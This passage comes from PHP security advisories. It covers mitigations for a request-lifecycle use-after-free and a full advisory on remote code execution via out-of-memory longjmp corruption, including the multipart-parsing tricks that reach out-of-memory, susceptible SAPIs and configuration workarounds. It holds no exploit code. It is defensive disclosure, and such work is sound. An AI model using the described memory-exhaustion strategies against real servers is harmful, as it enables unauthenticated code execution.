For PHP 8.5 installations that cannot update, set `fatal_error_backtraces=0` administratively and restart every worker. This removes the producer used by the confirmed RCE case. It does not cover other request-owned global or extension state.

For the session lifecycle case, set `session.upload_progress.enabled=0` administratively and restart every worker. This prevents the demonstrated early session producing and consuming operations. It does not mitigate the other lifecycle paths. It might be prudent to set `session.upload_progress.enabled=0` if you don't need this feature even after applying the patch, as more attackers try to find flaws in this hardly-used and hardly-tested feature.

Reduce the remaining risk by breaking as many links in the lifecycle as possible:

1. Eliminate fatal errors on paths reachable by an attacker. Include failures that depend on request flow in upload, import, error page, shutdown, destructor, serialization, output handler, plugin and extension paths rather than only failures seen during ordinary page requests.
2. Eliminate warnings and other diagnostics emitted during extension post-deactivation and server cleanup, after normal request error state has already been cleared.
3. Eliminate diagnostics from all INI configuration applied before request initialization. Prefer `php.ini`, FPM pool or server configuration applied at startup over per request overrides, and remove obsolete directives.
4. If performance is not a factor, consider limiting the number of requests a worker may execute using `pm.max_requests=1`.

A PHP execution timeout should be treated like another fatal error. Prevent attacker controlled requests from predictably reaching `Maximum execution time exceeded` while PHP is inside an affected operation. Changing the time limit only removes that possible interruption and does not mitigate the other cases.

### Logging and configuration audit

Enable `log_errors=On`, a functional `error_log`, and `error_reporting=E_ALL` in startup configuration during an isolated audit. Review Apache, PHP-FPM, reverse proxy and service logs for:

- Warnings, deprecations and core errors repeated before target scripts run.
- Warnings and other diagnostics produced during extension or server cleanup.
- Fatal, parse and uncaught error messages.
- `Maximum execution time exceeded`.
- Failures restricted to routes, content types, files, callback implementations or plugin options controlled by an attacker.

Fixing observed errors reduces exposure, but absence of an error in logs is not proof of safety. Historical logs may have been collected with deprecations or other relevant severities excluded. Even an audit using `E_ALL` only covers the routes and application states that were exercised. A failure may also happen before PHP writes the message. Logs must supplement a static configuration and application flow audit.

**Important**: Make sure to also follow the remediation advice from the related report.
https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w

## Impact and reliability

The confirmed impact is unauthenticated heap use-after-free, memory disclosure and remote code execution with the web worker's privileges. The fatal backtrace path has confirmed RCE against mod_php. Session lifecycle RCE was validated against mod_php and FPM. Other state families establish security impact only after a concrete producer and consumer are shown.

The producer and consumer requests must reach the same worker. Multiple workers and recycling reduce success per request but do not remove the condition.


## GHSA-w8hw-w9fx-j79w — RCE via OOM corruption
- CVE: CVE-2026-109618 | Severity: critical | CVSS: None `None` | CWE: CWE-416, CWE-755, CWE-824, CWE-1325, CWE-1419
- Published: 2026-10-21T13:34:25Z | URL: https://github.com/php/php-src/security/advisories/GHSA-w8hw-w9fx-j79w
- Affected php/php-src: vulnerable < 8.2.35 patched 8.2.35
- Affected php/php-src: vulnerable < 8.3.36 patched 8.3.36
- Affected php/php-src: vulnerable < 8.4.27 patched 8.4.27
- Affected php/php-src: vulnerable < 8.5.12 patched 8.5.12
- Credits: lcfr-hax, sagitzadik-wiz, tomash-areion, amyb-oai, arnaud-lb, iluuu1994, bukka, ndossche

## Summary

PHP uses `longjmp()` for out-of-memory (OOM) errors to exit the current context and abort handling of the request. In some contexts, request memory is temporarily reachable before it is fully initialized. If any allocation fails at that point, PHP does not properly account for the early exit and leaves the request memory in an invalid state. The failed allocation does not need to be related to the invalid memory. The request shutdown procedure may then read or branch on it. Multiple OOM strategies can consistently trigger this condition and lead to remote code execution (RCE).

## Vulnerability

### OOM strategies

Several multipart parsing problems can let a request reach OOM while remaining within its apparent PHP limits:

- A multipart request without a usable declared content length may pass the initial `post_max_size` check and continue supplying decoded body data.
- A multipart part can contain an unrestricted number of headers. Representing these headers inside PHP can use substantially more memory than their wire representation, allowing a request within `post_max_size` to exhaust the normal `memory_limit`.
- Empty file controls do not count towards `max_file_uploads` but still create the normal file metadata arrays. Nested field names multiply the generated array work.

OOM can also be reached in application-specific ways when attacker-controlled input causes a sufficiently large allocation or repeated memory use.

### Susceptibility

Apache mod_php unconditionally invokes the request shutdown procedure, even when request startup has failed. During request startup, automatic body parsing can exhaust the configured memory limit and exit the request in a context where state is temporarily invalid. Shutdown then processes this invalid state. This happens entirely before any application-specific code begins execution.

FPM exits the child when request startup fails. This prevents consumption of the invalid state and removes the child from the pool. After normal startup, OOM may still be reached in a context failing to account for an early exit, with the invalid state being processed during request shutdown. Source analysis therefore supports FPM as susceptible, though no complete FPM exploit has been demonstrated for this SAPI.

Source analysis indicates that FrankenPHP, analogous to Apache mod_php, calls the request shutdown procedure unconditionally, making it likely susceptible to application-independent attacks. LSAPI models FPM, with application-specific exploits being likely but unvalidated.

## Mitigation

The patch removes `longjmp()` for OOM, avoiding an early exit out of contexts that do not properly account for it. It is replaced with a delayed, graceful soft OOM triggered at the next VM safe point, and an immediate hard OOM using `_exit()` if memory consumption reaches a second, higher threshold. The shutdown procedure will no longer see invalid state, and PHP's normal ability to limit memory consumption is retained.

> [!WARNING]
> Updating to a PHP release containing the patch to this vulnerability is the _only_ complete mitigation.

For installations that cannot update, setting and enforcing `memory_limit=-1` administratively is the primary configuration mitigation. It removes the predictable per-request limit that enables the confirmed exploit with a controllable OOM. This is not a complete mitigation. If `mmap()` or another underlying allocation fails, PHP can still use `longjmp()` while incomplete request memory is reachable. Restart every PHP worker and confirm that no pool, directory or application setting restores a finite PHP memory limit.

Keep `post_max_size` conservative and independently enforce the decoded request size at the frontend. Reduce `max_input_nesting_level`, and bound the number of input variables, multipart parts, headers within each part and uploads. These controls reduce hard OOM and denial of service risk even after applying the patch, but do not replace updating. If the application does not use multipart form data, block such requests at the frontend before they reach PHP.

A container or cgroup memory limit (`memory.max`) may provide an alternative to PHP's own `memory_limit` with some limitations. It is not guaranteed to prevent allocation failure and is not a complete mitigation. For example, killing a container or cgroup can also kill the master and every worker, unless each worker has its own group. Killing one FPM child fails only its current requests and FPM's master replaces it quickly. Do _not_ use `RLIMIT_AS` or `RLIMIT_DATA`, as these will cause `mmap()` to fail once the memory limit is reached, triggering the vulnerable `longjmp()` path.

**Important**: Make sure to also follow the remediation advice from the related report.
https://github.com/php/php-src/security/advisories/GHSA-6wmf-4rv5-p3rp

## Impact and reliability

The confirmed impact is unauthenticated remote code execution as the web worker account. Complete remote code execution was validated over HTTP against mod_php with default PHP input and memory limits and normal prefork configurations with multiple workers. Additional workers and unrelated traffic can increase the required number of attempts but do not remove the condition. Exploit portability and reliability depend on the PHP build, extensions, frontend behavior and allocator layout.

